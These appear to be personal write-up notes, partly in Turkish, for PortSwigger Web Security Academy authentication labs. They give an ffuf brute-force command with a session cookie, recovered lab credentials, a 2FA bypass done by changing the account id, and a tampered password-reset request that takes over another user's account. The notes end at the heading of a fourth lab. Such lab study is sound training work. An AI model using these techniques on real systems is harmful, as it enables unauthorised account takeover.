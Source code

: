 #### 1.Lab: Username enumeration via different responses

We need to execute a brute force attack
- send a Post /login request with data:
- `username=administrador&password=123321`
- see that it returns 200 for invalid requests and a string that says 'Invalid username' 
- now use ffuf:
```
 ffuf -mode clusterbomb -u 'https://0a680083040cd35c80d3d5ab00ae009e.web-security-academy.net/login' -w ./Usernames/PortSwiggerUsernames.txt:BUZZ -w ./Passwords/PortSwiggerPasswords.txt:FUZZ -X POST -d 'username=BUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: session=uT1mIx4NPVkRc2mK3tPGnQSg7vULHuVO' -fr 'Invalid username' -fr 'Invalid password' -fc 200
```
- this will filter out requests that have 'Invalid username' and 'Invalid password' in it, it will also filter out the request with the status code 200.
- username: appserver
- password: abc123
- Voila, Lab solved!

#### 2.Lab: 2FA simple bypass

Abi labı yanlışlıkla çözdüm
Çözüm:
- Önce wiener:peter ile giriş yapıyoruz
- `GET /my-account?id=wiener HTTP/2` isteğini atıyoruz hesp sayfası için
- Carlos:montoya ile giriş yapıyoruz
- 2FA geldiğinde `GET /my-account?id=carlos HTTP/2` isteğini attığımızda
- 2FA aşmış oluyoruz
- Voila Lab solved!

#### 3.Lab: Password reset broken logic

Password reset kısmında açık var

- execute the forgot password sequence for the user wiener:peter
- you'll see that there is a `POST /forgot-password?temp-forgot-password-token=gbifb6m4x4e21jxynq1ulroqq4jvcnid HTTP/2` request
- in the data section this change the username to carlos:
```
temp-forgot-password-token=gbifb6m4x4e21jxynq1ulroqq4jvcnid&username=wiener&new-password-1=hello&new-password-2=hello
```

to 

```
temp-forgot-password-token=gbifb6m4x4e21jxynq1ulroqq4jvcnid&username=carlos&new-password-1=hello&new-password-2=hello
```

- this way the new password for user carlos is `hello`
- Voila Lab solved!

#### 4.Lab: Username enumeration via subtly different responses
